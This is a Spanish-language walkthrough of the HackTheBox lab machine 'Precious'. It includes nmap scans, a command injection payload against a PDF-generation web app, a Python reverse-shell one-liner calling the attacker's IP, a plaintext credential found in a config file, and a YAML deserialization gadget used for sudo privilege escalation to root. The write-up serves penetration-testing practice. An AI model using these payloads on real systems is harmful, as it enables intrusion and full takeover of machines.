




# Enumeración 🔎

Como siempre realizamos una pequeña enumeración rápida con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -sS  -T5 --min-rate 5000 -p- 10.129.228.98 -vvv -oG allports
```

Esta primera busqueda la utilizaremos para buscar rapidamente puertos abiertos para realizar un escaneo mas profundo.

```bash
nmap -sCV -T5 --min-rate 5000 -p22,80 10.129.228.98 -oN openports
```

Como podemos ver en el resultado de la busqueda tenemos una redirección en el puerto 80 por lo que si intentamos acceder desde el navegador no tendremos resolución DNS.

```bash
 # Nmap 7.93 scan initiated Sun Feb 26 11:29:01 2023 as: nmap -sCV -T5 --min-rate 5000 -p22,80 -oN openports 10.129.228.98
 Nmap scan report for 10.129.228.98
 Host is up (0.039s latency).

 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
 | ssh-hostkey:
 |   3072 845e13a8e31e20661d235550f63047d2 (RSA)
 |   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
 |_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
 80/tcp open  http    nginx 1.18.0
 |_http-server-header: nginx/1.18.0
 |_http-title: Did not follow redirect to http://precious.htb/
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Sun Feb 26 11:29:11 2023 -- 1 IP address (1 host up) scanned in 9.32 seconds
```

Para acceder se puede modificar el fichero hosts para que la resolución se realice en nuestro propio equipo y ganar acceso a la pagina.



## Explotación 🔑

Creamos un servidor de python3 en nuestro equipo para que la maquina pueda tener una URL funcional de la cual tendremos control. Si escribimos la IP y puerto de la maquina podremos acceder a este desde la pagina web y crear archivos pdf.

```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.98 - - [26/Feb/2023 11:47:12] "GET / HTTP/1.1" 200 -
10.129.228.98 - - [26/Feb/2023 11:47:58] "GET /smbscan HTTP/1.1" 200 -
```



Podemos mirar dentro de las propiedades del archivo desde el propio navegador y se puede ver la aplicación con la que se ha creado.



Una vez conseguido el nombre de la aplicación podemos buscar si la versión que corre en el servidor tiene algun exploit, haciendo una busqueda en internet podemos encontrar que es vulnerable a command injection. Podemos hacer una pequeña prueba haciendo un sleep 5 si el servidor se demora en devolver la pagina web habremos confirmado que es vulnerable.

```python
http://10.10.14.67:8000/?name=#{'%20`sleep 5`'}
```

Al realizar la prueba la pagina tarda en devolvernos el pdf por lo que ya sabemos que es vulnerable a command injection buscando podemos entonces intentar cargar un exploit en este caso vamos a probar la oneline revershell de python3

```python
http://10.10.14.67/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.67",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

Una vez realizado el exploit tendremos acceso a una bash con el usuario ruby.

```bash
❯ sudo nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.228.98] 50120
$ whoami
whoami
ruby
$
```

El usuario que hemos adquirido haciendo la explotación no nos permite acceder a ninguna flag por lo que tendremos que realizar una escalada de privilegios para adquirirlas.

## Escalada de privilegios 🚀

Dentro de la maquina con ruby no podremos hacer mucho por lo que deberemos de investigar la maquina por si hubiera alguna contraseña en claro, buscando por el directorio web no se encuentra nada pero en la carpeta /home/ruby podemos encontrar una carpeta oculta .bundle el cual contiene la contraseña de henry.

```bash
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:QXDXDXDXDXDXDXDXDXDH"
$
```

Con esta contraseña podemos acceder por SSH ya que comprobamos en la enumeración de la maquina que teniamos el puerto 22 abierto. 

```bash
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
f--------------------------3
henry@precious:~$
```

### Escalada a root

Para finalizar la maquina haremos la escalada a root lo primero que haremos sera comprobar si henry tiene algun privilegio de sudo. Podemos encontrar que puede utilizar los siguientes comandos:

```ruby
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Con este dato podemos ver que acciones realiza el archivo update_dependencies.rb

```ruby
# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Como podemos ver en el archivo se utiliza el archivo dependencies.yml de la ruta en la que nos encontremos al no estar sanitizada y trabajar con una ruta relativa podemos utilizarlo para realizar nuestro ataque.

[Blind Remote Code Execution through YAML Deserialization (stratumsecurity.com)](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

En concreto vamos a estar usando la ejecución remota de comandos que tenemos en el enlace de arriba. Generamos el archivo dependencies.yml pero en vez de realizar el sleep 600 que muestra enla poc vamos a utilizar el comando id para comprobar que se ejecuta como root.

#### dependencies.yml

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
```

Como vemos hemos ejecutado el comando que se encuentra en el campo git_set como root por lo que podemos spawnear una shell gracias a esto. Solo deberemos de cambiar la linea mencionada por /bin/bash -i

```bash
root@precious:/home/henry# cat /root/root.txt ; cat user.txt
4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXd
fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX3
root@precious:/home/henry#
```

